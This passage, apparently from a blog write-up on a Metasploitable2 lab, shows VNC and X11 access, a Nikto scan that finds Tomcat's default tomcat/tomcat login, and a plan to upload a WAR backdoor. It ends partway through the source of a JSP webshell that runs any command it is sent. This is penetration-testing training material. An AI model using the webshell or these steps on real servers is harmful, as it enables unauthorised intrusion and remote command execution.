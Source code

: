 find a password:
{% img  /images/blog/misc/metasploitable2/Selection_037.png   [title manually exploit [alt text]] %}


use this password to login vnc

`vncviewer 192.168.79.179`

{% img  /images/blog/misc/metasploitable2/Selection_038.png   [title manually exploit [alt text]] %}


### X11 (Port 6000)

search x11, find a scanner `auxiliary/scanner/x11/open_x11`

```
msf > use auxiliary/scanner/x11/open_x11
msf auxiliary(open_x11) > set rhosts 192.168.79.179
msf auxiliary(open_x11) > run
```
shows `[*] 192.168.79.179:6000   - 192.168.79.179 Access Denied`

now, try to login use telnet username/password to X11

`ssh -X -l msfadmin 192.168.79.179`







### Exploit Apache Tomcat (port 8180)

use Nikto to scan

`nikto -h 182.168.79.179:8180`

{% img  /images/blog/misc/metasploitable2/Selection_013.png   [title manually exploit [alt text]] %}


defalut credential is found: ID 'tomcat', PW 'tomcat'.


nagviate to http://192.168.79.179:8180/manager/html, input username/password, and we are in:

{% img  /images/blog/misc/metasploitable2/Selection_014.png   [title manually exploit [alt text]] %}

same shit, generate upload WAR reverse shell backdoor.


create webshell called index.jsp (from pentester lab, you may generate it using msfvenom)


```jsp

<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
```